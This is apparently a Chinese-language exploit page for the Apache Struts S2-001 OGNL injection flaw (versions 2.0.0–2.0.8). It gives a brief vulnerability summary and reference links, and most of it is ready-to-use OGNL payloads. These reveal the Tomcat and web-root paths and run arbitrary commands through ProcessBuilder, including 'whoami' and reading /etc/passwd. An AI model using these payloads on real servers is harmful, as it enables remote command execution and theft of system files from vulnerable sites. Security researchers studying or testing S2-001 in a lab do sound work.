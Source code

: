 # 漏洞摘要
```
官方链接：https://cwiki.apache.org/confluence/display/WW/S2-001
官方概述：Remote code exploit on form validation error
影响版本：Struts 2.0.0 - Struts 2.0.8
修复摘要：数据 re-display 时禁止执行 OGNL 表达式
```

# 漏洞利用
### POC:
```
username=xishir&password=%{1+1}
```
![](https://www.codemonster.cn/img/s2/s2-001-2.png)  
### EXP:
获取tomcat执行路径：
```
%{"tomcatBinDir{"+@java.lang.System@getProperty("user.dir")+"}"}
```
获取Web路径：
```
%{#req=@org.apache.struts2.ServletActionContext@getRequest(),#response=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter(),#response.println(#req.getRealPath('/')),#response.flush(),#response.close()}
```
执行任意命令：
```
%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"whoami"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}
```
带参数的命令：`new java.lang.String[]{"cat","/etc/passwd"}`
![](https://www.codemonster.cn/img/s2/s2-001-3.png)

# 参考链接
[https://cwiki.apache.org/confluence/display/WW/S2-001](https://cwiki.apache.org/confluence/display/WW/S2-001)  
[http://rickgray.me/review-struts2-remote-command-execution-vulnerabilities.html](http://rickgray.me/review-struts2-remote-command-execution-vulnerabilities.html)  
[https://github.com/vulhub/vulhub/tree/master/struts2/s2-001](https://github.com/vulhub/vulhub/tree/master/struts2/s2-001)  
[https://chybeta.github.io/2018/02/06/【struts2-命令-代码执行漏洞分析系列】S2-001/](https://chybeta.github.io/2018/02/06/【struts2-命令-代码执行漏洞分析系列】S2-001/)
